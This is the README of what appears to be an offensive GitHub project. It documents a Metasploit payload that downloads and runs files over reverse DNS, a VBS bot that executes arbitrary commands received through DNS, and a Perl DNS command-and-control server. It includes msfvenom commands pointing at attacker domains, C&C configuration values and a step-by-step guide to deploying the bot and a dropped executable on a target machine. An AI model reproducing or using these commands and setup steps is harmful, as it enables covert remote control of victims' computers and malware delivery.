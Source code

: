 # Reverse DNS payloads for Remote control
Reverse DNS payload for Metasploit: Download  Exec x86 shellcode. Also DNS Handler and VBS bot (working over DNS) as PoC included.

## Components

### dns_download_exec_svchost.rb

Metasploit payload: X86 download and exec via reverse DNS channel. Jut put this file into msf3 payload folder and then you could use it like that:

     mssfvenom -p windows/dns_download_exec_svchost DOMAIN=a.0x41.ws EXT=vbs -f js_le | sed -s 's/\%/\\/g'

DOMAIN - domain you should control (NS).

EXT - file extension

This payload are using getaddrinfo API function for getting data over DNS (to %temp% dir). This shellcode will work even on boxes without IPv6 assigned (my previos one - https://www.exploit-db.com/exploits/17326/ did not!). 
For that all resolved IPv6 addresses should be from reserved block. This shellcode uses IPv6 in ranges from ff00:: to ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

those IPv6 will be resolve even if no IPv6 address assigned to the interface (only linked). First byte should be ff, than second is control byte that tell us
what block of data we have and flag "last block". All last 14 bytes of IPv6 - data as is (no encoding needed, like in TXT section). For one DNS response we could
 receive up to 17 IP addresses, so for one DNS request we could get 238 bytes of raw data.
 
 aaaa.a.dom.ws - first 238 bytes
 baaa.a.dom.ws - second 238 bytes
 caaa.a.dom.ws - ....
 ....
 abaa.a.dom.ws - ...
 cbaa.a.dom.ws - for example last peace of data (in this case we have flag of last pice in first 4 bits of second byte)
 
 Maximum size: up to 88 Mb (zzzz.dom.ws)
 Download Speed: ~ 4 Kb/sec
 Shellcode size: 833 bytes (no null bytes by default)
 
### bot.vbs
 
 PoC of agent on VBS that could use reverse DNS channel for RCE control. This prototype uses nslookup for resolving ipv4 addresses.
 As first action this agent will  try to register on C&C by using AD domain name and user login, after that it will frequently requesting DNS
 for getting commands to execute. If command will be received then result of execution will be sent back in base64 format.
 VBS agent was chosen because we could download it faster over reverse DNS shellocde.
 
#### Commands
    exit                   - kill process with agent (wscript)
    sleep                  - sleep 30 seconds until next request
    download [part] [file] - download another file [part] - subdomain with file
                                                   [file] - local file name (to create)
                             Download speed here ~ 1 Kb/Sec
                             example: download b drop.exe
                             (will be converted into aaaa.b.dom.ws, baaa.b.dom.ws)
    [any other command]    - will run cmd /c [any other command]

    
This is juts PoC and prototype so we do not have here autorun and hiding features!

### revdns.pl

DNS handler that should be used as dom.ws name server. Works as agent C&C server and could support sessions (if we have more than one agent)
 and also contains egg-drop for shellode/or bot.vbs (up to 88Mb). Support both: bot.vbs and DNS shellcode. And it is designed to work as combo:
  
 1. Shellcode using this DNS downloading bot.vs and run it
 2. bot.vs using same DNS as C&C and could download next file (see revdns.pl)

P.S. This perl code based on my old ugly-coded-perl DNS server, so sorry for that 8)

Original(and old) preso about this project is here: [https://erpscan.com/wp-content/uploads/2012/06/dns-for-evil.pdf](CONFidence 2011 slides: DNS for EVIL)

## Example usage

1) Buy a domain name and host a revdns.pl. Let's say we have zlo.ws and host 11.11.11.11 (as our C&C server)

2) Configure revdns.pl (on 11.11.11.11) 

    @EGGs = ("bot.vbs","drop.exe")
    
So now it "stores" two files in a.zlo.ws and in b.zlo.ws

3) Configure
  
        $DOMAIN = "zlo.ws";               
        $IPA = "11.11.11.11"; 

4) Configure bot.vbs (on 11.11.11.11)

        DOMAIN="zlo.ws" 
        
5) Put drop.exe (on 11.11.11.11) as any binary (better small 8))              
              
6) Run revdns.pl

7) Setup NS for zlo.ws to 11.11.11.11

8) Now we a read, let's generate shellocode

If you want shellcode download and exec bot.vbs
 
        mssfvenom -p windows/dns_download_exec_svchost DOMAIN=a.0x41.ws EXT=vbs -f js_le
        
If you want shellcode download and exec drop.exe
 
        mssfvenom -p windows/dns_download_exec_svchost DOMAIN=b.0x41.ws EXT=exe -f js_le
        
9) Run exploit with shellocde on target box, and then (if bot.vbs used) wait when BOT from the box will be connected to revdns.pl

10) Use interactive or auto mode of revdns.pl
